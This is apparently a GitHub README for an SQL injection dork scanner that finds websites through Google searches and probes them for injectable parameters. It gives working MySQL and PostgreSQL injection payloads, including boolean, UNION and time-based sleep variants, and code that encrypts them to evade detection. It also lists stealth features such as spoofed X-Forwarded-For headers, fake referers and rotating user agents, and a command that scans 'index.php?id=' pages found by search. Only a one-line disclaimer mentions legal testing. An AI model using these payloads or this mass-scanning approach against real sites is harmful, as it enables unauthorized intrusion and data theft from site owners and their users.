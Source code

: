 # SQLi-Inject  
**Comprehensive SQL Injection Dork Scanner**  

---

## 🔍 Main Features
- **Automatic Google Dorking** - Discover targets using the Google Custom Search API
- **Encrypted Payloads** - Encrypt payloads with Fernet to avoid detection
- **Multithreaded Scanning** - Parallel execution with ThreadPoolExecutor
- **Evasion Mechanisms**:
  - Random User-Agent rotation
  - Dynamic delay with jitter
  - Spoofing X-Forwarded-For header
  - Fake referer
- **Multi-Format Reporting** (JSON/CSV/Console)
- **Intelligent Detection**:
  - Response time analysis
  - Database error pattern matching
  - HTTP status code validation

---

## 🛠️ Installation
1. Clone the repository  
```bash
git clone https://github.com/KnuckleSalt/SQli-Dork
```

2. Install dependencies


```bash
pip install -r requirements.txt
```

---

⚙️ Configuration

Create a file named config.yaml using the following template:

```bash
security:
  encryption_key: "base64_32_byte_fernet_key"

payloads:
  mysql:
    - "gAAAAAB..."  # Encrypted MySQL payload
    - "gAAAAAB..."  # Example: ' OR 1=1 --
  postgresql:
    - "gAAAAAB..."  # Encrypted PostgreSQL payload

network:
  proxies:
    http: "http://proxy:port"
    https: "https://proxy:port"
  timeout: 10

endpoints:
  google: "https://www.googleapis.com/customsearch/v1"

credentials:
  api_key: "your_google_api_key"
  cse_id: "your_cse_id"

stealth:
  referers:
    - "https://www.google.com"
    - "https://www.bing.com"
  time_based_threshold: 3.5

performance:
  threads: 15

detection_patterns:
  - "error in your SQL syntax"
  - "Warning: mysql"
  - "PostgreSQL.*ERROR"
```

## 🔑 Generate Encryption Key

```
from cryptography.fernet import Fernet
print(Fernet.generate_key().decode())
```

## 🔒 Example Payload Encryption

```bash
key = Fernet.generate_key()
cipher = Fernet(key)
encrypted_payload = cipher.encrypt(b"' OR 1=1 -- ").decode()
print(encrypted_payload)
```

## Example auto generate config.yaml

```bash
from cryptography.fernet import Fernet
import yaml

KEY = Fernet.generate_key()
cipher = Fernet(KEY)

payloads = {
    "mysql": [
        "' OR 1=1 -- ",
        "' UNION SELECT version(),2 -- ",
        "' AND 1=IF(2>1,SLEEP(5),0) -- "
    ],
    "postgresql": [
        "' OR 1=1; -- ",
        "' UNION SELECT NULL,version() -- ",
        "' AND CASE WHEN (1=1) THEN pg_sleep(5) ELSE NULL END -- "
    ]
}

encrypted_payloads = {
    dbms: [cipher.encrypt(p.encode()).decode() for p in payloads[dbms]]
    for dbms in payloads
}

config = {
    'security': {'encryption_key': KEY.decode()},
    'payloads': encrypted_payloads,
    'network': {'timeout': 10, 'proxies': {}},
    'endpoints': {'google': 'https://www.googleapis.com/customsearch/v1'},
    'credentials': {'api_key': 'YOUR_APIKEY', 'cse_id': 'YOUR_CSE'},
    'stealth': {'referers': ['https://google.com'], 'time_based_threshold': 3.5},
    'detection_patterns': [
        r"SQL syntax.*MySQL",
        r"PostgreSQL.*ERROR",
        r"Warning.*mysql_",
        r"unclosed quotation mark"
    ],
    'performance': {'threads': 10}
}

with open('config.yaml', 'w') as f:
    yaml.dump(config, f, default_flow_style=False)

print("Config file generated successfully!")
```


---

## 🚀 Usage

Basic command:

```
python scanner.py --dork "inurl:index.php?id=" --max-results 50 --stealth
```

## Parameter options:

```
--dork          Google search query (required)
--site          Filter by domain
--file-type     Filter by file type
--max-results   Maximum number of results (1-100)
--stealth       Enable stealth mode
--jitter        Random delay variation (default: 0.5)
--delay         Base delay between requests (default: 1.0)
--random-agent  Random User-Agent rotation
--output        Report format (console/json/csv)
```

---

## ⚠️ Disclaimer

This tool is for educational and legal testing purposes only. Users are fully responsible for their own usage of this tool.


---

## 🙌 Special Thanks

Thanks to the open source contributors:

- [synnaulaid](https://github.com/synnaulaid) - Inspiration for developing security tools and debugging



---

